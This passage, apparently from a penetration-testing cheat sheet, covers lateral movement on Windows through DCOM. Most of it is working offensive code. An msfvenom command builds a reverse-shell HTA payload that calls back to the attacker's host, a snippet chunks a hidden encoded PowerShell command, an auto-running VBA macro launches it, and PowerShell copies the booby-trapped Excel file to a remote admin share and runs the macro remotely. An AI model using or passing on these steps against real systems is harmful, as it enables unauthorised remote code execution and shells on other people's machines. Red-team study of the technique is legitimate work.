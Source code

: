 Distributed Component Object Model (DCOM)
* DCOM allows a computer to run programs over the network on a different computer e.g. Excel/PowerPoint/Outlook
* Requires RPC port 135 and local admin access to call the DCOM Service Control Manager - the API.
* The `run` method within DCOM allows us to execute a VBA macro remotely.

DCOM - create payload and VBA macro
```
# (kali) create rshell payload
$ msfvenom -p windows/shell_reverse_tcp LHOST=[kali] LPORT=4444 -f hta-psh -o evil.hta

# (python) split payload into smaller chunks starting with "powershell.exe -nop -w hidden -e
str = "powershell.exe -nop -w hidden -e {base64_encoded_payload}"
n = 50
for i in range(0, len(str), n):
print "Str = Str + " + '"' + str[i:i+n] + '"'

# create VBA macro -> insert into Excel file
Sub AutoOpen()
    exploit
End Sub
Sub Document_Open()
    exploit
End Sub
Sub exploit()
        Dim str As String
        {insert_payload_here}
        # OPTION 1
        Shell (Str)                    
        # OPTION 2
        # CreateObject("Wscript.Shell").Run str
End Sub

# check if document contains valid exploit macro
$ mraptor [exploit.doc]
```

DCOM - Copy file to remote and execute
```
# create instance of Excel.Application object
$com [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "[target_workstation]"))

# copy Excel file containing VBA payload to target
$LocalPath = "C:\Users\[user]\badexcel.xls
$RemotePath = "\\[target]\c$\badexcel.xls
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

# create a SYSTEM profile - required as part of the opening process
$path = "\\[target]\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)

# open Excel file and execute macro
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
$com.Run("mymacro")
```
